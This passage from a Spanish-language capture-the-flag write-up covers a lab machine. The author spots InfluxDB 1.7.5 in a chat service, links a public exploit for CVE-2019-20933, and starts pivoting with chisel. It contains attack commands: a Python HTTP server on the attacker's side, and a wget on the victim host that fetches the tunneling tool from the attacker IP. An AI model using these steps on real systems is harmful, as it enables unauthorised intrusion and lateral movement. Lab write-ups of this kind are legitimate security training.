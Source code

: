 Inspeccionando puertos he encontrado el `8443` que tiene el mismo servicio que en el puerto `8000` pero con un `comando` llamado `file`

```
patrick@devzat:~/pets/.git$ ssh -l patrick 127.0.0.1 -p 8443
admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb 1.7.5 for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
devbot: admin has left the chat
Welcome to the chat. There are no more users
devbot: patrick has joined the chat
patrick: /commands
[SYSTEM] Commands
[SYSTEM] clear - Clears your terminal
[SYSTEM] message - Sends a private message to someone
[SYSTEM] users - Gets a list of the active users
[SYSTEM] all - Gets a list of all users who has ever connected
[SYSTEM] exit - Kicks you out of the chat incase your client was bugged
[SYSTEM] bell - Toggles notifications when you get pinged
[SYSTEM] room - Changes which room you are currently in
[SYSTEM] id - Gets the hashed IP of the user
[SYSTEM] commands - Get a list of commands
[SYSTEM] nick - Change your display name
[SYSTEM] color - Change your display name color
[SYSTEM] timezone - Change how you view time
[SYSTEM] emojis - Get a list of emojis you can use
[SYSTEM] help - Get generic info about the server
[SYSTEM] tictactoe - Play tictactoe
[SYSTEM] hangman - Play hangman
[SYSTEM] shrug - Drops a shrug emoji
[SYSTEM] ascii-art - Bob ross with text
[SYSTEM] example-code - Hello world!
[SYSTEM] file - Paste a files content directly to chat [alpha]
```

Como vemos en este chat la `versión` de `InfluxDB` es la `1.7.5`, he encontrado este `exploit` [https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) para las `versiones` `anteriores` a la `1.7.6`. Para poder `explotar` esta `vulnerabilidad` vamos a descargarnos `chisel` para hacer un `remote port forwarding` del puerto `8086` [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel). Tras descomprimir `chisel_1.9.1_linux_amd64.gz` nos montamos un `servidor http con python` por el `puerto 80`

```
# python -m http.server 80
```

Descargamos `chisel` en la `máquina víctima`

```
patrick@devzat:~$ wget http://10.10.16.16/chisel_1.9.1_linux_amd64
```
